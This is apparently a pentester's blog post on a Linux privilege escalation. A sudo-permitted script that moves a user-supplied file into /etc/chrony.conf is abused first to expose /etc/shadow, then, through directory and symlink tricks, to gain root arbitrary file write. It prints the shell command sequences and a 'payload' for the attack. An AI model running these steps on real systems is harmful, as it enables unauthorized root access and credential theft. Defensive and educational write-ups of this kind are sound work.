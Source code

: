 ```yaml
---
layout: post
title: File Move to Privilege Escalation
date: 2021-08-22
tags: linux filesystem privesc
---
```


This post covers a PrivEsc that was found involving overlooked Linux filesystem and `mv` features.

## Overview

I was trying to finish up a chain of exploitation with a Linux PrivEsc. I had a web exploit that allowed RCE through the `nginx` user.
The typical `linPEAS.sh` scipt was ran but there was nothing interesting except for a handful of sudo NOPASSWD bash scripts.
The bash scripts ranged in length and complexity. They all aimed to perform "safe" root operation from `nginx`.

## Analysis

The following was a script that I'll refer to as `script.sh` that ended up being interesting.

```sh
#!/bin/bash

if [ -e /etc/chrony.conf~ ] ; then rm -f /etc/chrony.conf~ || : ; fi
mv -f /etc/chrony.conf /etc/chrony.conf~
mv "${1}" /etc/chrony.conf
chmod --reference=/etc/chrony.conf~ /etc/chrony.conf
chown --reference=/etc/chrony.conf~ /etc/chrony.conf
```

The script moves an `nginx` provided file to `/etc/chrony.conf` and applies the same permissions as the original file, which are `root`-based.
After looking online, `chrony.conf` seems to configure system time. How could this be broken?

## Arbitrary File Read

At first, I thought I could do a race-condition that would allow to provide any permission for `chrony.conf`.
Although being a valid issue, this is not particularly beneficial. What could be done with system time control?

Building off this idea, I checked out the `chrony.conf` permissions more closely:

```
-rw-r--r-- root root chrony.conf
```

The `chrony.conf` was world readable. This prompted me to pass `/etc/shadow` and see that the file was now readable through `/etc/chrony.conf`.
Root arbitrary file read! Just got to argue that passwords are weak and crackable and I had a full chain of exploitation.

## Arbitrary File Write

Obviously, I was not satisfied. There must be a way to allow a root arbitrary file write. I was wondering what I could provide and I remembered:

"Everything is a file in Linux" - Linux 101.

What if I provide a folder, symlink, device, etc? I can name any of these to `chrony.conf` and the filesystem will behave as expected.
After testing with various combinations, I found I could break the first line with a non-empty folder.

```sh
mkdir /etc/chrony.conf~
touch /etc/chrony.conf~/pwn
rm -f /etc/chrony.conf~
```
```
rm: cannot remove '/etc/chrony.conf~': Is a directory
```

The second line could also be broken if there was a folder at the destination.

```sh
mkdir /etc/chrony.conf~
mkdir /etc/chrony.conf~/chrony.conf
mv /etc/chrony.conf /etc/chrony.conf~
```
```
mv: cannot overwrite directory '/etc/chrony.conf~/chrony.conf' with non-directory
```

With the two previous issues, I could essentially "block in place" `/etc/chrony.conf` during the script. I could make the file various Linux file types.
What if I set `/etc/chrony.conf` as a symlink to `/tmp`?

```sh
ln -s /tmp /etc/chrony.conf
touch ./pwn
mv "./pwn" /etc/chrony.conf
ls /tmp
```

Notice how that `/tmp/pwn` now exists. `mv` considers the operation as a move to a folder and keeps the name.
For this example, we targeted `/tmp` but we could easily target `/etc` or even overwrite the `script.sh`.

Therefore, we can get Root Arbitrary File Write + Root PrivEsc through:

1) Making a malicious `/pwn/chrony.conf` folder and moving it with `script.sh`.

2) Making a symlink to a target destination and moving it with `script.sh`.

3) Making a payload with the target file name and moving it with `script.sh`.

4) Profit.

This resulting payload is roughly following:

```sh
# 1
mkdir ./pwn
mkdir ./pwn/chrony.conf
./script.sh ./pwn/chrony.conf
# 2
ln -s /path/to/pwn_file ./pwn
./script.sh ./pwn
# 3
touch pwn_file
./script.sh ./pwn_file
# 4
ls /path/to
```

Note that this payload leads to "broken" system permissions because of the last two lines.
There is definitely a way to take advantage of those behaviors, I'll let you explore!

## Summary

Linux and `mv` can behave unpredictably at times.

For developers, make sure to validate user input files no matter the source.
Users will always end up willingly or unwillingly sending you input that you won't expect.

For pentesters, folders and symlinks can be interesting to send if you have a foothold in a machine.
Additionally, sometimes overlooked "basic" features can be the most dangerous.

